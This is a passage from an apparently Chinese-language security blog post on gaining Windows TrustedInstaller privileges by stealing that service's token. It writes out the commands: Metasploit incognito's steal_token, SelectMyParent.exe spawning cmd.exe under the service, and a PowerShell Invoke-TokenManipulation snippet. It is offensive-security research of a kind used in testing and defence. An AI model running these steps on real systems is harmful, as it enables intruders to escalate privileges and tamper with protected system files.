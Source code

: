 ```
whoami /groups /fo list
```

发现当前cmd.exe在TrustedInstaller组里，成功获得TrustedInstaller权限

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/4-4.png)

接着按照James Forshaw文章中更新的内容，学习了Vincent Yiu@vysecurity的方法，使用metasploit下的incognito也能够获得TrustedInstaller权限

**地址如下：**

https://twitter.com/vysecurity/status/899303538630774787


思路如下：

- 启动服务TrustedInstaller
- 使用incognito获取TrustedInstaller.exe的token
- 获得TrustedInstaller权限

使用以下命令：

- load incognito
- getsytem
- ps
- steal_token 3204
- getuid

按照这个思路，猜测使用SelectMyParent和Invoke-TokenManipulation.ps1也能获得TrustedInstaller权限

下面验证我们的判断

**1、SelectMyParent**

```
sc start TrustedInstaller
SelectMyParent.exe cmd.exe 1700
```

新的cmd.exe拥有TrustedInstaller权限

**2、Invoke-TokenManipulation.ps1**

添加如下代码即可：

```
sc.exe start TrustedInstaller
$id  = Get-Process -name TrustedInstaller* | Select-Object id | ForEach-Object -Process{$_.id}
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId $id
```

**注：**

sc这个命令不能直接在powershell里面运行，powershell会把它当作set-content的别名，可使用sc.exe在powershell里面运行sc命令


### 验证是否获得TrustedInstaller权限的方法

